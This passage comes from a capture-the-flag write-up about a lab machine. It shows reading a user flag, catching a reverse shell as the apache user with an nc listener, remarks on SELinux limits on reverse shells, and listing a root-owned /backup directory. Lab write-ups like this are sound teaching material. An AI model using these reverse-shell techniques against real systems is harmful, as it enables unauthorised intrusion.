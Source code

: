 
And access as ldapuser gives me `user.txt`:

    
    
    [ldapuser@ctf ~]$ ls
    user.txt
    [ldapuser@ctf ~]$ cat user.txt
    74a8e86f...
    

### Shell as apache

With command execution, I’ll use that to get a shell:

![1549883152700](https://0xdfimages.gitlab.io/img/1549883152700.png)

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.122.
    Ncat: Connection from 10.10.10.122:35934.
    bash: no job control in this shell
    bash-4.2$ id
    id
    uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
    

A couple things to note here:

  * For some reason, while this web request hangs, it seems to lock up our access to port 80. Exiting the shell will open 80 back up.
  * The author’s intent was to configure SE Linux to prevent the common reverse shells. This does prevent things like callbacks on non web or ldap ports, and writing pipes to `/tmp`. But it’s not enough to stop all reverse shells. I’ll play with SELinux a bit and write my own shell to submit commands in Beyond Root.

## Read as root

### Enumeration - Find /backup

Right away I’ll notice an extra directory at the root level, `backup`:

    
    
    [ldapuser@ctf /]$ ls
    backup  bin  boot  dev  etc  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
    

There’s interesting stuff in it:

    
    
    [ldapuser@ctf backup]$ ls -l /backup/
    total 48
    -rw-r--r--. 1 root root  32 Feb 10 21:31 backup.1549830661.zip
    -rw-r--r--. 1 root root  32 Feb 10 21:32 backup.1549830721.zip
    -rw-r--r--. 1 root root  32 Feb 10 21:33 backup.1549830781.zip
    -rw-r--r--. 1 root root  32 Feb 10 21:34 backup.1549830841.zip
    -rw-r--r--. 1 root root  32 Feb 10 21:35 backup.1549830901.zip
    -rw-r--r--. 1 root root  32 Feb 10 21:36 backup.1549830961.zip
    -rw-r--r--. 1 root root  32 Feb 10 21:37 backup.1549831021.zip
    -rw-r--r--. 1 root root  32 Feb 10 21:38 backup.1549831081.zip
    -rw-r--r--. 1 root root  32 Feb 10 21:39 backup.1549831141.zip
    -rw-r--r--. 1 root root  32 Feb 10 21:40 backup.1549831201.zip
    -rw-r--r--. 1 root root  32 Feb 10 21:41 backup.1549831261.zip
    -rw-r--r--. 1 root root   0 Feb 10 21:41 error.log
    -rwxr--r--. 1 root root 975 Oct 23 14:53 honeypot.sh